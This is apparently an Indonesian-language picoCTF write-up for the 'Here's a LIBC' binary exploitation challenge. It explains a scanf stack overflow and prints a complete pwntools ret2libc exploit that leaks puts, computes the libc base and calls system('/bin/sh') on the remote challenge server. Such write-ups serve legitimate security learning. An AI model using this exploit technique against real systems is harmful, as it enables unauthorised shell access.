




# Here's a LIBC 
### Category: Binary Exploitation
### Level : Hard

**Deskripsi:**
>I am once again asking for you to pwn this binary vuln libc.so.6 Makefile nc mercury.picoctf.net 62289

## Analisis
Pertama kita analisis binarynya terlebih dahulu



bisa di lihat bahwa ini binary 64 bit Executable

setelah itu kita coba untuk menganalisis apa sebenarnya yang terjadi pada binary ini



setelah di analisis lebih lanjut di sana terdapat sebuah bug Buffer Overflow
lihat pada variabel local_88 disana terdapat buffer 112 dan fungsi scanf yang tidak membatasi buffer yang di masukan yang mengakibatkan buffer overflow



karena binarynya tidak bisa di exec (gatau kenapa) jadi kita lihat dari servernya saja
dikarenakan chall ini kita sudah tau apa bug nya jadi kita eksekusi saja menggunakan tehnik ret2libc
https://ir0nstone.gitbook.io/notes/binexp/stack/return-oriented-programming/ret2libc

singkatnya ret2libc seperti ini
leak puts -> leak libc -> spawn bin/sh

berikut kode exploit nya
```
from pwn import *

context.binary = elf = ELF("./here")
context.terminal = ['xfce4-terminal', '-e']
context.log_level = 'error'
libc = ELF("libc.so.6")
if len(sys.argv) > 1 and sys.argv[1] == 'gdb':
        p = gdb.debug([elf.path],'''

            continue
        ''')
else:
    #p = process()
    p = remote('mercury.picoctf.net',62289)

offset = 136
pop_rdi = 0x0000000000400913
ret = 0x000000000040052e

#leak puts
payload = flat({offset:[pop_rdi,elf.got.puts,elf.plt.puts,elf.sym.main]})
p.sendline(payload)
p.recvline()
p.recvline()
a = p.recvline().strip()
leak = u64(a.ljust(8,b'\x00'))
print(f"leak puts = {hex(leak)}")

#leak libc address
libc.address = leak - libc.symbols['puts']
print(f"libc address = {hex(libc.address)}")

#system('/bin/sh')
rop = ROP(libc)
rop.raw(ret)
rop.call('system',[next(libc.search(b'/bin/sh\x00'))])
payload = flat({offset:rop.chain()})
p.sendline(payload)

p.interactive()
```

dan ketika di run akan seperti ini

